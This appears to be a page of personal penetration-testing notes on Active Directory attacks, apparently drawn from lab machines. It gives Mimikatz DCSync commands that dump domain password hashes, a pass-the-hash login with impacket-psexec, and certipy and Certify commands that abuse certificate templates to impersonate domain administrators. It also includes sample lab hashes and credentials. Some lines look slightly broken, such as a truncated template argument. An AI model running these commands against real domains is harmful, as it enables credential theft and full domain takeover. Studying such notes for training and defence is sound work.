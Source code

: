 #### Domain Controller Synchronization

To do this, we could move laterally to the domain controller and run Mimikatz to dump the password hash of every user. We could also steal a copy of the NTDS.dit database file, which is a copy of all Active Directory accounts stored on the hard drive, similar to the SAM database used for local accounts.

```bash
lsadump::dcsync /all /csv #First run this to view all the dumpable hashes to be cracked or pass the hash
lsadump::dcsync /user:zenservice #Pick a user with domain admin rights to crack the password or pass the hash

Credentials:
  Hash NTLM: d098fa8675acd7d26ab86eb2581233e5
    ntlm- 0: d098fa8675acd7d26ab86eb2581233e5
    lm  - 0: 6ba75a670ee56eaf5cdf102fabb7bd4c
...
kali@kali: impacket-psexec -hashes 6ba75a670ee56eaf5cdf102fabb7bd4c:d098fa8675acd7d26ab86eb2581233e5 zenservice@192.168.183.170
````

#### Exploiting Certificate Authority

If LDAP is open, you can try to connect to LDAP through your browser, 'https:10.10.11.202:3269/', and check whether the box is a certificate authority. If it is, you can upload Certify.exe to the machine once you have initial access and exploit it.

You can also see it when you run winpeas towards the end in the certificate section. 

```bash
# This'll give you some information to put into BloodHound
certipy-ad find -u hazel.green -p haze1988 -dc-ip 192.168.165.40
# Vulnerable ?
certipy-ad find -u hazel.green -p haze1988 -dc-ip 192.168.165.40 -stdout -vulnerable
# Molly is basically head Domain Admin. Seems like the quotes made a difference
certipy-ad req -u hazel.green -p haze1988 -target dc.hokkaido-aerospace.com -upn 'molly.smith@hokkaido-aerospace.com' -ca 'hokkaido-aerospace-DC-CA'
certipy req -u hazel.green -p haze1988 -target hokkaido-aerospace.com -upn administrator@hokkaido-aerospace.com -ca hokkaido-aerospace-DC-CA  --template UserAuthentication
```

```bash
# Taken from Certify's Github Page
.\Certify.exe find /vulnerable
.\certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:adminstrator /outfile:C:\Windows\Tasks\cert.pem
certipy-ad req -u hazel.green@hokkaido-aerospace.com -p haze1988 -target-ip dc.hokkaido-aerospace.com -ca 'hokkaido-aerospace-DC-CA' -template 'User' -upn 'Molly.Smith@hokkaido-aerospace.com'
certipy-ad req -u hazel.green -p haze1988 -target-ip dc.hokkaido-aerospace.com -upn Hazel.Green@hokkaido-aerospace.com -ca hokkaido-aerospace-DC-CA -template
# Paste the RSA PRIVATE KEY in cert.pem file
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
